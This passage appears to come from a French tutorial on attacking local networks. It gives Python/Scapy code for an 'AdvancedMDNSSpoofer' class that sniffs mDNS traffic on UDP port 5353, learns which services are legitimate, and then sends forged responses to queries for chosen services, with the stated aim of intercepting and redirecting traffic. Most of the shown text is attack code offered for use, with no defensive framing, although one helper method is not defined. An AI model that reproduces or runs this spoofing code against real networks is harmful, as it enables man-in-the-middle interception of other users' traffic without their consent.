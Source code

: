 ```python
            time.sleep(scan_delay)
    
    def measure_network_latency(self):
        """Mesure la latence réseau pour adapter le timing"""
        ping_times = []
        for _ in range(3):
            start = time.time()
            ping = IP(dst="224.0.0.251")/ICMP()
            sr1(ping, timeout=2, verbose=0)
            ping_times.append(time.time() - start)
        
        return sum(ping_times) / len(ping_times) if ping_times else 1.0
```

#### Étape 2 : Implémentation de techniques de spoofing mDNS

Développez des capacités de spoofing pour l'interception et la redirection de trafic.

```python
# Système de spoofing mDNS sophistiqué
class AdvancedMDNSSpoofer:
    def __init__(self):
        self.legitimate_services = {}
        self.spoofed_responses = {}
        
    def learn_legitimate_services(self, duration=300):
        """Apprend les services légitimes avant de spoofé"""
        def capture_legitimate(packet):
            if packet.haslayer(DNS) and packet[DNS].qr == 1:  # Response
                service_name = packet[DNS].qd.qname.decode('utf-8')
                self.legitimate_services[service_name] = {
                    'ip': packet[IP].src,
                    'ttl': packet[DNS].an[0].ttl if packet[DNS].ancount > 0 else 120
                }
        
        print(f"[+] Apprentissage des services légitimes pendant {duration}s...")
        sniff(filter="udp port 5353", prn=capture_legitimate, timeout=duration)
        
    def selective_spoofing(self, target_services):
        """Spoofing sélectif de services spécifiques"""
        def spoof_handler(packet):
            if packet.haslayer(DNS) and packet[DNS].qr == 0:  # Query
                query_name = packet[DNS].qd.qname.decode('utf-8')
                
                if any(service in query_name for service in target_services):
                    # Créer une réponse spoofée
                    spoofed_response = self.craft_spoofed_response(packet)
                    send(spoofed_response, verbose=0)
                    print(f"[*] Spoofed response for {query_name}")
        
        sniff(filter="udp port 5353", prn=spoof_handler)
```
